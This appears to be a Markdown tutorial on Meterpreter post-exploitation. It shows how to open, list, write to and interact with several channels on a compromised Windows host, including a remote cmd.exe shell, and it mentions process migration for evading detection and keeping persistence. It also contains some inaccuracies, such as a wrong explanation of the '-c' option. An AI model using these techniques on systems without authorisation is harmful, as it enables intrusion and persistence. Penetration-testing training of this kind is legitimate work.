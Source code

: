 ## Ways to form more than one communication channels
1. Reverse TCP or HTTP/S connections:
	- The most common way for Meterpreter to estaiblish communication with the target system is through a reverse TCP or HTTP/S connection.
	- Once the initial connection is estaiblished, Meterpreter can create additional connections on different ports or protocols. 
	- For example, Meterpreter can create an additional connection on port 8080 using the HTTP/S protocol while maintaining the original connection on port 4444 using the TCP protocol. 

2. Process Migration:
	- Meterpreter has the ability to migrate its code to another process running on the target system. 
	- This can be useful for evading detection by security software or for maintaining persistence on the system. 
	- Once the migration is complete, Meterpreter can create a new communication channel with the target system.

3. Auxiliary module

## Taking help related to command which is used to start multiple communication channels:
```python
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.

OPTIONS:

    -a   The arguments to pass to the command.
    -c   Channelized I/O (required for interaction).
    -d   The 'dummy' executable to launch when using -m.
    -f   The executable command to run.
    -h   Help menu.
    -H   Create the process hidden from view.
    -i   Interact with the process after creating it.
    -k   Execute process on the meterpreters current desktop
    -m   Execute from memory.
    -p   Execute process in a pty (if available on target platform)
    -s   Execute process in a given session as the session user
    -t   Execute process with currently impersonated thread token
    -z   Execute process in a subshell
```
- "execute", which can be used to start mulple communication channels. 

## command to start creating communication channels
```python
meterpreter > execute -f notepad.exe -c
Process 4948 created.
Channel 1 created.
```
- The "-f" option is used to specify the name of the file or program to be executed. In this case, "notepad.exe" is specified as the file to be executed.
- The "-c" option is used to specify that the command should be executed in the context of the current process. This means that the command will be executed using the same privileges as the Meterpreter session that is currently active on the target system. 

#### Now, we can run the `execute` command again to start another channel without terminating the current channel:
```python
meterpreter > execute -f cmd.exe -c
Process 296 created.
Channel 2 created.
```

## Listing all the available channels
```python
meterpreter > channel -l

    Id  Class  Type
    --  -----  ----
    1   3      stdapi_process
    2   3      stdapi_process
```

## Writing message in one of active channel
```python
meterpreter > write 1
Enter data followed by a "." on an empty line:


this is a notepad.exe process which is created using Meterpreter
.
[*] Wrote 65 bytes to channel 1.
```

## Interacting with particular channel
```python
meterpreter > channel -i 2
Interacting with channel 2...

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
- As you can see, our channel 2, was a command-prompt channel.
Note - To background a channel, use `Ctrl + Z`

## Ending a channel
```python
meterpreter > channel -c 3
[*] Closed channel 3.
```

